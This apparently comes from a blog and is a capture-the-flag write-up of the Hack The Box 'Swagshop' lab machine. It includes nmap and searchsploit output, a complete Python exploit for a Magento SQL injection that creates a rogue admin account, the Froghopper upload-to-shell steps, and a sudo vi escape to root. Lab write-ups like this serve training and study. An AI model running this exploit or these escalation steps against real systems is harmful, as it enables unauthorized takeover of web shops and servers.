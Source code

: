 ```yaml
---
layout: single_c
title:  "Hack The Box - Swagshop Writeup"
date:   2019-10-17 10:43:16 +0530
categories: HTB
tags: OSCP
classes: wide
---
```

### Hack The Box - Swagshop

## Enumeration
Lets start by enumerating

#### Nmap
Starting with `nmap`
```bash
nmap -sC -sV 10.10.10.140

# Nmap 7.70 scan initiated Thu Aug 29 15:03:29 2019 as: nmap -sC -sV -oA nmap 10.10.10.140
Nmap scan report for ip-10-10-10-140.ap-south-1.compute.internal (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 15:04:15 2019 -- 1 IP address (1 host up) scanned in 45.63 seconds
```
There seems to be a Magento web app running on port 80. Let enumerate further
()
#### Directory Buster
`directory buster` found an admin login page


![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag1.png){: .align-center}

## Vulnerability

#### Searchsploit
```bash
root@kali:~# searchsploit magento
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' C | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserializ | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a -  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclos | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execut | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXt | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted | exploits/php/webapps/38651.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
``` 
I had to try most of these to find the right one. The issue is a time based `sql injection`

[Exploit](https://www.exploit-db.com/exploits/37977)

## Exploitation
I modified the python script to correct the url and added a user named `joe123` with password `forme`

```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,
`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES 
(1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="joe123", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
#print target_url
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

 ```
 
 And now we can login into the application.
## Usershell
For usershell I used a magento vulnerabillity known as `froghopper`

[Froghopper Attack](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)

To trigger this we have to complete a series of steps.
 
##### 1. Change the developer settings to allow `symlinks`
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag2.png){: .align-center}
 
 
 
 
##### 2. Now we have to upload a image file containing our php code. I uploaded it in the favicon option
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag3.png){: .align-center}
 
 
 
 
##### 3. Now we have to create create newsletter template with a reference to the image
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag4.png){: .align-center}
 
 
 
 
##### 4. Start a netcat listener and preview the template
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag5.png){: .align-center}
 
 
 

And we have a shell
 
## Privilege Escalation

I copied the `LinuxEnum.sh` file to the machine and ran it and found some interesting output.
 ```
 
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

[+] Possible sudo pwnage!
/usr/bin/vi

```
So we can run `vim` as root. So lets try pwning using `vim`

```
$ sudo /usr/bin/vi /var/www/html/test1
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'
  
~
~
~
~
:shell

id
uid=0(root) gid=0(root) groups=0(root)
                   
```
We have a root shell. Pwned!
### Solved
